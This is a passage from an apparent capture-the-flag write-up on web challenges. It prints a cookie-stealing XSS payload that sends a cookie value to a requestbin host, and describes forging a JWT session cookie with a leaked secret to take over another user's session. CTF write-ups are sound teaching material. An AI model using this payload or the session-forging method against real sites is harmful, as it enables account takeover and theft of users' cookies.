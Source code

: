 I noticed that the word 'SCRIPT' could be used in the message. So I tested it with a request bin and a set of made up cookies, to be sure that the selected one was the right one:

> \<SCRIPT>document.location='https://requestbin' .concat(document.cookie.match('key1=(\[^;]\*)')\[1])\</SCRIPT>

At this point I could see the value of key1 directly in the URL. The challenge was solved.

## Web3: Daily Training

The goal of the challenge was to retrieve the rewards of user `2242db8f-8552-4c46-b293-5380d772e494.`&#x20;

<figure><img src="../.gitbook/assets/image (101).png" alt=""><figcaption><p>homepage</p></figcaption></figure>

The web app has "sign-up" and "log-in" functionalities. In the source code I deducted that the website was not vulnerable to SQLi, but I noticed that there was a cookie-session associated with the username only.&#x20;

So I created an account and signed in. I inspected the cookie with a debugger ([https://jwt.io/#debugger-io](https://jwt.io/#debugger-io)), and from the source code I took the secret. I was able to steal the session of the given user by modifying the cookie.

## Web4: My New Renderer

The goal of the challenge was to render the flag of user '`Virgie`'. In this case the source code was not given.
